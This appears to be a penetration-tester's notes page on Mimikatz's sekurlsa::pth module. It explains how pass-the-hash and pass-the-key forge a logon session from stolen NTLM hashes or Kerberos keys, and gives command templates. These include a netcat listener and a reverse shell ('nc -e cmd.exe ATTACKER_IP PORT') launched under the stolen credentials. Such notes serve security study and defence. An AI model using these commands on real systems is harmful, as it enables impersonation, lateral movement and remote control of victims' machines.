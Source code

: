 # sekurlsa::pth

{% embed url="https://www.praetorian.com/blog/inside-mimikatz-part1/" %}

{% embed url="https://www.praetorian.com/blog/inside-mimikatz-part2/" %}

### Overview of how _Mimikatz_ implements the pass-the-hash technique

The `sekurlsa::pth` module allows an attacker to impersonate a user by spawning a new logon session on the local machine, and associating the attacker’s supplied credentials with that session. It will then launch a process specified by the attacker (reverse shell, etc.) under the context of the new forged session.

This entire process happens locally, and no external authentication is performed at this stage. However, subsequent network requests made from the new session will use the injected credentials, allowing us to perform lateral movement and other actions without knowing the actual password.

#### Technical details

The `sekurlsa::pth` method performs a **Pass-the-Hash** or **Pass-the-Key** attack for NTLM and Kerberos authentication respectively, that depends on the provided options (eg. `/ntlm` , `/rc4` , etc.).

Any external network connections (eg. `schtasks` , `sc.exe` , etc.) executed from that forged logon session will automatically use the injected credentials, giving us access as that particular user on the remote machine.

**a. Using stolen NTLM hash with NetNTLM authentication**

1. When we receive a challenge from the remote server, the injected NTLM hash will be used to create the challenge response&#x20;
2. Since we are using the NTLM hash of the target user, we can authenticate as that particular user

**b. Using stolen encryption key with Kerberos authentication**

1. Given that we have extracted the Kerberos encryption key, it can be used to encrypt the timestamp that is required for the **TGT** request
2. The **KDC** will then respond with the **TGT** and a **Session Key**
3. Subsequently, we can use the retrieved values to request for a **TGS** as the user stored in the Kerberos encryption key in the first step

#### Basic command

{% code overflow="wrap" %}
```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /<xxxx>:<hash> /run:"<payload>"
```
{% endcode %}

* `<xxxx>:hash` can be `/ntlm:<hash>` , `/aes128:<hash>` , etc.
* `/run` allows us to provide a payload to be executed locally with the injected credentials
  * this will usually be a reverse shell connection

#### Example

Suppose we have found a user's NTLM hash using the `lsadump::sam` or `sekurlsa::msv` methods. We can use the found hash to retrieve a logon session as the user.

First, we need to establish a listener to catch the shell:

```sh
$ nc -lvnp PORT
```

Next, perform PtH:

{% code overflow="wrap" %}
```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /<xxxx>:<hash> /run:"nc -e cmd.exe ATTACKER_IP PORT" 
```
{% endcode %}

From the shell session established:

Note that if we execute the `whoami` command, we will still see the original user we were using before performing the attack, but any commands executed from this session will use the injected credentials.

